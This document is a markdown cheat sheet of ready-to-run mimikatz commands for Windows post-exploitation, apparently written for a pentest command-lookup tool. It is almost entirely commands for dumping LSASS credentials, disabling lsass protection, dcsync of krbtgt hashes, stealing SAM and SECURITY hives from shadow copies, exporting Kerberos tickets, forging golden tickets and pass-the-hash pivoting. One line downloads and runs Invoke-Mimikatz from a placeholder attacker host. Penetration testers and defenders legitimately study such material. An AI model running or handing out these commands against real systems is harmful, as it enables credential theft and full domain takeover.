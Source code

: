 # mimikatz

% mimikatz, passwords

## mimikatz onliner
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

## powershell - load mimikatz
https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/Invoke-Mimikatz.ps1') | IEX
Invoke mimikatz
```

## mimikatz disable PPL and dump passwords
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe /remove" "sekurlsa::logonpasswords" "exit"
```

## mimikatz dcsync - user (krbtgt/Administrator)
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:<domain> /user:<user>" "exit"
```

## mimikatz extract credentials from dump
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
mimikatz.exe "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"
```

## mimikatz extract credentials from shadow copy (1)
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
mimikatz.exe "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM"
```

## mimikatz extract credentials from shadow copy (2)
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER

Extract old passwords
```
mimikatz.exe "lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY"
```

## extract on hand shadow volume copy
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER
```
powershell.exe "[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM', '.\Desktop\SYSTEM.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY', '.\Desktop\SECURITY.bkp');[System.IO.File]::Copy('\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM', '.\Desktop\SAM.bkp')"
```

% mimikatz, ad

## mimikatz extract tickets
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 
```
sekurlsa::tickets /export
```

## mimikatz - forest extra SID
#plateform/windows  #target/local  #cat/POSTEXPLOIT/CREDS_RECOVER 

sid : origin domain sid : Get-DomainSID -Domain domainname
sids :  ExtraSid value (Enterprise Admins SID) : parent SID
	
```powershell
kerberos::golden /user:<user> /domain:<domain> /sid:<child_sid> /krbtgt:<krbtgt_ntlm> /sids:<parent_sid>-519 /ptt
```

% mimikatz, pth
## mimikatz pth to RDP mstsc.exe
#plateform/windows  #target/local  #cat/PIVOT 
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:"mstsc.exe /restrictedadmin"
```

## mimikatz pth run powershell remotelly
#plateform/windows  #target/local  #cat/PIVOT 
Followed by : Enter-PSSession -Computer {<}computer_name}
```
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm_hash> /run:powershell
```